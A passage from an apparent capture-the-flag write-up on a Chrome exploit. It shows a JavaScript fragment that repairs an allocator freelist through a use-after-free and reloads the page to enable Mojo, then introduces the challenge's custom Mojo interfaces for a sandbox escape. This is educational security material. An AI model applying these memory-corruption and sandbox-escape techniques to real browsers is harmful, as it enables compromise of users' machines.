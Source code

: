 Even if `mojo` is enabled, it won't take effect until the page is reloaded. Before reloading the page, we "fix" the freelist (not sure if it actually fixes it, but no crash so it's great) to have the address of the freed `ArrayBuffer` that we had before pwning `ParititonAlloc`.

```js
console.log("go reload!!!");
freelist[0] = page_leak;
leaks[0] = (0n).i2f()
uaf.set(leaks,0);   
window.location.reload();
```

Page reloaded, and we have `mojo`. Do the sandbox escape now!


### Sandbox


#### Interface Overwiew

This part of the challenge introduces two custom mojo interfaces that we are supposed to exploit.

```cpp
module blink.mojom;

interface TStorage {
    Init() => ();
    CreateInstance() => (pending_remote<blink.mojom.TInstance> instance);
    GetLibcAddress() => (uint64 addr);
+    GetTextAddress() => (uint64 addr);
};

interface TInstance {
    Push(uint64 value) => ();
    Pop() => (uint64 value);
    Set(uint64 index, uint64 value) => ();
    Get(uint64 index) => (uint64 value);
    SetInt(int64 value) => ();
    GetInt() => (int64 value);
    SetDouble(double value) => ();
    GetDouble() => (double value);
    GetTotalSize() => (int64 size);
};
```
##### TInstance
The `TInstance` interface allows us to perform numerous operations on its class variables.
Short summary on what we can do with it:

1. read/write integer/double value to simple class variable with the `{Get/Set}{Int/Double}()` functionality.
2. read/write up to **200** integer values inside inlined array with the `{Get/Set}()` functionality.
3. push/pop integer values to a dynamically allocated array
4. invoke virtual method *GetTotalSize()*
